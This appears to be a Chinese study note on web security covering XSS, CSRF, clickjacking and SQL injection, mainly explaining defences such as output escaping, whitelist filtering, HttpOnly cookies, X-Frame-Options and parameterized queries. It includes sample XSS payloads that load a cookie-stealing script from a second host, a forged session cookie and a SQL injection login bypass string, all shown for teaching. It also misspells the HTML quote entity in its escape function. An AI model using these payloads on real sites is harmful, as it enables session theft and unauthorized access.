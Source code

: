 我们必须理解这么几个方面：sql 注入、xss、csrf、cookie 安全、密码安全等等。
sql 注入，要理解 sql 注入的场景，它的原理是什么，当前的数据库的解决方案是什么？（不知道密码，利用一些特定的 sql 语句，返回用户信息）
xss 攻击，常见的攻击场景，什么类型的网站容易被 xss 攻击，整个流程的原理是什么？
csrf 攻击，其实就是一个钓鱼网站，要理解为什么会收到攻击，应该采取什么策略进行防御。
cookie 安全，要理解为什么用 token，优势等。
密码安全，主要是用户登陆，用户数据提交，加密，存入数据库的一整个流程。
其次，其实还有 http 和 https 的问题等等。

# XSS

[不错的](https://my.oschina.net/u/4446873/blog/3229798/print)

概念: Cross Site Scripting 跨站脚本攻击

比如，一个博客网站，我发表一篇博客，其中嵌入 script 脚本 脚本内容 获取 cookie，发送到我的服务器(服务端配合跨域)，
发布这篇博客，有人查看，轻松拿到了访问者的 cookie

XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS 重叠，所以只能叫 XSS。跨站脚本攻击是指通过
存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的非本站点 HTML 标签或 JavaScript 进行的一种攻击。

跨站脚本攻击有可能造成以下影响:

- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。

1. XSS 攻击分类

```js
// 普通 http://localhost:3000/?from=china // alert尝试 http://localhost:3000/?from=<script>alert(3)</script> // 获取Cookie http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script> // 短域名伪造 https://dwz.cn/ // 伪造cookie入侵 chrome document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxO DYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

2. 存储型 - 存储到 DB 后读取时注入

```js
// 评论 <script>alert(1)</script> // 跨站脚本注入 我来了<script src="http://localhost:4000/hack.js"></script>
```

XSS 攻击的危害 - Scripting 能干啥就能干啥
获取页面数据
获取 Cookies
劫持前端逻辑
发送请求
偷取网站的任意数据
偷取用户的资料
偷取用户的秘密和登录态
欺骗用户

3. 防范手段

```
 ejs转义小知识
<% code %>用于执行其中javascript代码； <%= code %>会对code进行html转义； <%- code %>将不会进行转义
```

- head

```js
ctx.set('X-XSS-Protection', 0) // 禁止XSS过滤
http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
```

0 禁止 XSS 过滤。
1 启用 XSS 过滤（通常浏览器是默认的）。 如果检测到跨站脚本攻击，浏览器将清除页面（删除不安全的部
分）。
1;mode=block 启用 XSS 过滤。 如果检测到攻击，浏览器将不会清除页面，而是阻止页面加载。
1; report= (Chromium only)
启用 XSS 过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用 CSP report-uri 指令的功能发送违规
报告。

- CSP

* 转义字符 尖括号啊单双引号做一些转义 就不会执行了 比如我们的 script 标签
* 黑名单
  用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义

```js
npm - xss
替换特殊字符： 如 < 变成 &lt; > 变成&gt
<script>变为  &lt;script&gt;,直接显示，而不会作为脚本执行
前后端都要替换
function escape(str) {
  str = str.replace(/&/g, '&amp;');
  str = str.replace(/</g, '&lt;');
  str = str.replace(/>/g, '&gt;');
  str = str.replace(/"/g, '&quto;');
  str = str.replace(/'/g, '&#39;');
  str = str.replace(/`/g, '&#96;');
  str = str.replace(/\//g, '&#x2F;');
  return str;
}
```
富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉。对于这种情
况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在
太多，更加推荐使用白名单的方式。

- 白名单

```js
const xss = require('xss');
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>');
// -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt; console.log(html)
```

- HttpOnly Cookie
这是预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应 用程序在设置 cookie 时，将其属性设为
HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。
<!-- response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly") -->

# CSRF

CSRF(Cross Site Request Forgery)，即跨站请求伪造，是一种常见的 Web 攻击，它利用用户已登录的身份，
在用户毫不知情的情况下，以用户的名义完成非法操作。

- 用户已经登录了站点 A，并在本地记录了 cookie
- 在用户没有登出站点 A 的情况下（也就是 cookie 生效的情况下），访问了恶意攻击者提供的引诱危险站点 B
  (B 站点要求访问站点 A)。
- 站点 A 没有做任何 CSRF 防御

CSRF 攻击危害

- 利用用户登录态
- 用户不知情 利用登录状态
- 完成业务请求
- 盗取用户资金（转账，消费）
- 冒充用户发帖背锅
- 损害网站声誉

防御

- 禁止第三方网站带 Cookie - 有兼容性问题
- Referer Check - Https 不发送 referer 来源 referer
- 验证码

# 点击劫持 - clickjacking

点击劫持是一种视觉欺骗的攻击手段。攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，
并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。

防御？

- X-FRAME-OPTIONS
  用 iframe 嵌套的点击劫持攻击。
  该响应头有三个值可选，分别是
  DENY，表示页面不允许通过 iframe 的方式展示
  SAMEORIGIN，表示页面可以在相同域名下通过 iframe 的方式展示
  ALLOW-FROM，表示页面可以在指定来源的 iframe 中展示
  ctx.set('X-FRAME-OPTIONS', 'DENY')

# SQL 注入

```
// 填入特殊密码 1'or'1'='1 // 拼接后的SQL SELECT * FROM test.user WHERE username = 'laowang' AND password = '1'or'1'='1'
```

防御？
所有的查询语句建议使用数据库提供的参数化查询接口\*\*，参数化的语句使用参数而不是将用户输入变量嵌
入到 SQL 语句中，即不要直接拼接 SQL 语句。例如 Node.js 中的 mysqljs 库的 query 方法中的 ? 占位参
数。

```
// 错误写法 const sql = ` SELECT * FROM test.user WHERE username = '${ctx.request.body.username}' AND password = '${ctx.request.body.password}' `console.log('sql', sql) res = await query(sql) // 正确的写法 const sql = ` SELECT * FROM test.user WHERE username = ? AND password = ? `console.log('sql', sql, ) res = await query(sql,[ctx.request.body.username, ctx.request.body.password])
```

严格限制 Web 应用的数据库的操作权限**，给此用户提供仅仅能够满足其工作的最低权限，从而最大限度的
减少注入攻击对数据库的危害
后端代码检查输入的数据是否符合预期**，严格限制变量的类型，例如使用正则表达式进行一些匹配处理。
对进入数据库的特殊字符（'，"，\，<，>，&，\*，; 等）进行转义处理，或编码转换\*\*。基本上所有的后端
语言都有对字符串进行转义处理的方法，比如 lodash 的 lodash.\_escapehtmlchar 库。

# 请求劫持
